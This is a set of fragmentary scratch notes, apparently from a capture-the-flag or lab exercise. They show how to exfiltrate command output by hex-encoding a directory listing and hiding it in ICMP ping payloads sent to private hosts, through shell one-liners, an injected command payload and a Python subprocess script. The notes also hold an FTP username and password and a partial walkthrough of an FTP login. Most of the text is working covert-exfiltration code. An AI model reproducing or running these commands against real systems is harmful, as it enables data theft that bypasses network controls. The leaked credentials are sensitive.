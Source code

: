 1) first save result of ls in file ls.txt
ls > ls.txt

2) then:
 ping -s 100 -p $(xxd -p ls.txt) 192.168.2.254

-s can be up to mtu


before that i will try and ping the result immediately  

modified_payload = b'ls | xxd -p | ping -s 100 -p $(xxd -p) 192.168.2.2'

!ls > ls.txt && ping -s 100 -p $(xxd -p ls.txt) 192.168.2.8



USER
ftp_yolo
CyberSec@12


import subprocess

# Capture the result of 'ls' and convert it to hex format
ls_result = subprocess.check_output('ls', shell=True)

# Convert the 'ls' result to hexadecimal using xxd
hex_result = subprocess.check_output(['xxd', '-p'], input=ls_result)

# Convert hex_result to a string that will be passed as a ping payload
ping_command = f"ping -s 100 -p {hex_result.decode().strip()} 192.168.2.2"

# Execute the ping command
subprocess.run(ping_command, shell=True)

ping -s 100 -p $(od -An -tx1 < ls.txt | tr -d ' \n') 192.168.2.254"

### 1. **220 pyftpdlib 1.5.0 ready**

- **Command/Response:** FTP Server's greeting message.
- **Explanation:** This is the server's welcome message, indicating that it's ready to accept FTP commands from the client.

### 2. **USER ftp_yolo**

- **Command:** `USER ftp_yolo`
- **Explanation:** This command sends the username `ftp_yolo` to the server as part of the login process.
- **Response:** `331 Username ok, send password.` - The server is asking for the password for the `ftp_yolo` user.

